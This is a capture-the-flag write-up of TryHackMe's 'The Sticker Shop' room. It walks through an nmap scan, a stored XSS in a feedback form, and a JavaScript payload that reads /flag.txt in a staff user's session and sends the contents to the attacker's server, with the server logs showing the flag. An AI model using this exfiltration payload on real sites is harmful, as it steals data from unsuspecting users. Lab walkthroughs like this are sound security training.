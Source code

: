```yaml
---
title: "TryHackMe: The Sticker Shop"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, xss, js]
render_with_liquid: false
media_subpath: /images/tryhackme_the_sticker_shop/
image:
  path: room_image.webp
---
```


**The Sticker Shop** was a very simple room about exploiting a **Cross-Site Scripting (XSS)** vulnerability to steal the contents of a page and retrieve the flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/thestickershop){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.222.154
Nmap scan report for 10.10.222.154
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two ports open:

- **22** (`SSH`)  
- **8080** (`HTTP`)

### Web 8080

Visiting `http://10.10.222.154:8080/`, we see a simple page displaying some stickers and their prices.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

While there is no functionality to purchase the stickers, it appears we can leave feedback at `http://10.10.222.154:8080/submit_feedback`.

![Web 8080 Submit Feedback](web_8080_submit_feedback.webp){: width="1200" height="600"}

After submitting feedback, we receive a message stating that a staff member will review it shortly.

![Web 8080 Submit Feedback Message](web_8080_submit_feedback_message.webp){: width="1200" height="600"}

The room also specifies that our goal is to read the flag located at `http://10.10.222.154:8080/flag.txt`. However, making a request to this endpoint returns a `401 Unauthorized` response.

![Web 8080 Flag](web_8080_flag.webp){: width="1200" height="600"}

## Obtaining the Flag

### Discovering the XSS

Going back to the **Feedback** page and testing the form for Cross-Site Scripting (**XSS**) with a simple payload like `<img src="http://10.11.72.22/test" />` and starting a basic HTTP server to confirm the vulnerability, we can see that we are successful as we see a request in our web server.

![Web 8080 Submit Feedback Xss](web_8080_submit_feedback_xss.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.154 - - [01/Dec/2024 06:44:39] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:44:39] "GET /test HTTP/1.1" 404 -
```

### Stealing Page Contents

Our goal is still to access the contents of the `http://10.10.222.154:8080/flag.txt` page, and while we don't have access to it, we can consider the possibility that the staff user might.

Since we already discovered a Cross-Site Scripting (**XSS**) vulnerability potentially affecting a staff user that allows us to run `JavaScript` code in their session, we can exploit this vulnerability to obtain the contents of the `http://10.10.222.154:8080/flag.txt` page.

To achieve this, we will first write a `JavaScript` code that makes a request to the `/flag.txt` endpoint and sends the contents back to our server upon receiving a response, as shown below:

```js
var target_url = "/flag.txt";
var my_server = "http://10.11.72.22/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + xhr.responseText)
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```

Now, all we have to do is send our payload wrapped in `script` tags through the feedback form to make it execute in the staff user's session.

![Web 8080 Submit Feedback XSS Two](web_8080_submit_feedback_xss2.webp){: width="1200" height="600"}

After submitting the feedback with the payload, as we can see, we receive the flag on our web server and complete the room.

```console
10.10.222.154 - - [01/Dec/2024 06:59:29] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:59:29] "GET /data?THM{83[REDACTED]e6} HTTP/1.1" 404 -
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
